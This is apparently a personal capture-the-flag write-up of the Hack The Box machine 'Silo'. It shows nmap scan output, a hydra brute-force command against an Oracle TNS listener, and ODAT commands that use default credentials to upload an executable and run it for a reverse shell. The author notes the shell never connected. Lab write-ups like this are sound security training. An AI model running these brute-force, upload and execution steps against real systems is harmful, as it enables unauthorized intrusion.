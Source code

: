 # HTB Silo

Nmap basic scan:
![[./_resources/HTB_Silo.resources/image.png]]
Nmap aggressive scan:
```
Nmap scan report for 10.10.10.82
Host is up (0.084s latency).
Not shown: 988 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
80/tcp    open  http        Microsoft IIS httpd 8.5
|_http-server-header: Microsoft-IIS/8.5
|_http-title: IIS Windows Server
| http-methods: 
|  Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1521/tcp  open  oracle-tns  Oracle TNS listener 11.2.0.2.0 (unauthorized)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  oracle-tns  Oracle TNS listener (requires service name)
49160/tcp open  msrpc        Microsoft Windows RPC
49161/tcp open  msrpc        Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=1/5%OT=80%CT=1%CU=43155%PV=Y%DS=2%DC=T%G=Y%TM=63B791B8
OS:%P=x86_64-pc-linux-gnu)SEQ(CI=I%TS=7)SEQ(SP=F7%GCD=1%ISR=FE%CI=RD%TS=7)S
OS:EQ(CI=RD)SEQ(TI=RI%CI=RI%TS=7)SEQ(SP=F5%GCD=1%ISR=100%TS=7)OPS(O1=M537NW
OS:8ST11%O2=M537NW8ST11%O3=M537NW8NNT11%O4=M537NW8ST11%O5=M537NW8ST11%O6=M5
OS:37ST11)WIN(W1=2000%W2=2000%W3=2000%W4=2000%W5=2000%W6=2000)ECN(R=Y%DF=Y%
OS:T=80%W=2000%O=M537NW8NNS%CC=Y%Q=)ECN(R=N)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%
OS:RD=0%Q=)T2(R=Y%DF=Y%T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T2(R=N)T3(R=Y%DF=Y%
OS:T=80%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T3(R=N)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R
OS:%O=%RD=0%Q=)T4(R=N)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T5(R=N)
OS:T6(R=N)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W=0%
OS:S=Z%A=S+%F=AR%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID
OS:=G%RIPCK=G%RUCK=G%RUD=G)U1(R=N)IE(R=Y%DFI=N%T=80%CD=Z)
Uptime guess: 0.018 days (since Thu Jan  5 19:47:11 2023)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=245 (Good luck!)
IP ID Sequence Generation: Busy server or unknown class
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-security-mode: 
|  302: 
|_    Message signing enabled but not required
| smb2-time: 
|  date: 2023-01-06T03:12:48
|_  start_date: 2023-01-06T02:47:22
| smb-security-mode: 
|  account_used: guest
|  authentication_level: user
|  challenge_response: supported
|_  message_signing: supported
TRACEROUTE (using port 554/tcp)
HOP RTT      ADDRESS
1  57.74 ms 10.10.16.1
2  57.81 ms 10.10.10.82
NSE: Script Post-scanning.
Initiating NSE at 20:12
Completed NSE at 20:12, 0.00s elapsed
Initiating NSE at 20:12
Completed NSE at 20:12, 0.00s elapsed
Initiating NSE at 20:12
Completed NSE at 20:12, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 281.71 seconds
          Raw packets sent: 1761 (90.608KB) | Rcvd: 14451 (9.532MB)
```

Feroxbuster results with small-directories wordlist:
![[./_resources/HTB_Silo.resources/image.1.png]]
CME scan:
![[./_resources/HTB_Silo.resources/image.2.png]]
This machine uses a RDB by oracle and has a listener I can actually talk to useing a tool built-in to Kali called tnscmd10g. However, I get responses back with errors indicating I am an unauthorized user. I can also try to bruteforce this oracle tns listener using hydra with:
```
hydra -P /usr/share/wordlists/fasttrack.txt -t 32 -s 1521 10.10.10.82 oracle-listener
```

After a considerable amount of time, this did not lead to any meaningful results. Apparently there is a tool called ODAT that should be used for this. I installed this tool with apt and used the sidguesser parameter per the walkthrough since this is totally new to me. The idea here is to first enumerate SIDs and then the passwords.

![[./_resources/HTB_Silo.resources/image.3.png]]
Successful results in finding the account for the previously found SID.:
![[./_resources/HTB_Silo.resources/image.4.png]]
From here, I can upload a file to get a reverse shell using the following command.:
```
sudo odat utlfile -s 10.10.10.82 -p 1521 -U scott -P tiger -d XE --sysdba --putFile c:/
exx.exe /home/cl3al/Desktop/exx.exe
```

![[./_resources/HTB_Silo.resources/image.5.png]]
After running the command below to execute the payload, it would not actually spawn a shell for me as the walkthrough suggests. I will need to try using a aspx payload as this apparently may also work.
```
sudo odat externaltable -s 10.10.10.82 -p 1521 -U scott -P tiger -d XE --sysdba --exec c:/ exx.exe
```

For some reason, my attempts at triggering the reverse shell fails in both msfconsole and nc. I tried this again even after temporarily disabling my AV and changing the OVPN file to tcp connection and the issue persists. Due to time, I will move on to another box since this is pretty much the end of the box itself. Once a connection is actually established, you get NT Auth and can obtain the flags.

**###ROOTED ENOUGH!!!###**
